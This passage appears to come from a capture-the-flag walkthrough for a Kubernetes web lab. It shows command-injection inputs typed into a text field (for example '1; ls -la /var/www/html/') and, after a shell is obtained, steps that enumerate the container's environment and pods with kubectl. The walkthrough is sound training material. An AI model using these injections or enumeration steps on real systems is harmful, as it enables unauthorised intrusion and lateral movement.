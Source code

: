 You will see a document called `flag_one.txt`.

7. Type the following to see its contents: 

```bash
cat /var/www/html/flag_one.txt
```

The output is the answer to Question 1. 

### Note on obtaining a shell

Because the text field has a command injection vulnerability, you could've entered the command below to get the first flag without obtaining a shell. However, obtaining a shell is needed to answer the second question.

```bash
1; ls -la /var/www/html/
```

```bash
1; less /var/www/html/flag_one.txt
```
## Question 2

*File in /root/ node directory*

To verify if you are inside a container, look at the environment variables of the system using the shell you opened before. 

1. Inside the shell, enter the following:

``` bash
env
```

You will notice environment variables such as `KUBERNETES_PORT`, and `COUPONS_SERVICE_SERVICE_PORT`, among others. This indicates you are inside a Pod. Now that you know this, you can access the Kubernetes API using **kubectl**. 

2. Enter the following to know if `kubectl` is installed in the container. 

``` bash
kubectl -h 
```

You will see the help page for the `kubectl` command. 

3. Enter the following to display the Pods: 

```bash
kubectl get pods
```

You will receive an output that looks similar to this one: 
```bash
NAME                       READY   STATUS    RESTARTS   AGE
tools                      1/1     Running   0          16m
coupons-588ff9b758-bslrh   1/1     Running   0          15m
```
